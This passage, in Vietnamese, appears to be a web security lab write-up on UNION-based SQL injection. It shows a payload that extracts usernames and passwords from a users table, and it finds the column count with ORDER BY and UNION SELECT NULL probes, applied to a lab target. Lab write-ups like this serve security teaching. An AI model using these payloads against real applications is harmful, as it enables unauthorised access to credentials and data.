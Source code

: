 Kẻ tấn công sửa đầu vào thành: 
```sql
' UNION SELECT username, password FROM users--
```
Điều này sẽ chỉ đúng khi thỏa mãn: 
- Bản thân các truy vấn trả về cùng số lượng các cột
- Kiểu dữ liệu tương ứng từng cột khi truy vấn là như nhau  

Xuất phát từ điều này, để đoán được số lượng cột, kẻ tấn công sử dụng `ORDER BY` với số lượng tăng dần (mục đích để sắp xếp theo cột thứ n), khi gặp lỗi đó chính là số cột. 
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
```
Câu lệnh lúc đó sẽ là:
```sql
SELECT * FROM users ORDER BY 1 -- 
```
Cách thứ 2 là thử với 1 loạt các câu lệnh như sau, nếu số lượng NULL gây lỗi đó là số cột
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```
Ở lab đoán số cột này, ta sẽ thử order by với 4, ta thấy có lỗi xảy ra:
![alt text](image-3.png)
ta sẽ thử order by với 3, ta thấy không có lỗi xảy ra:
![alt text](image-4.png)
Vậy số cột là 3, ta sử dụng `'SELECT NULL, NULL, NULL--`, ta hoàn thành được bài lab: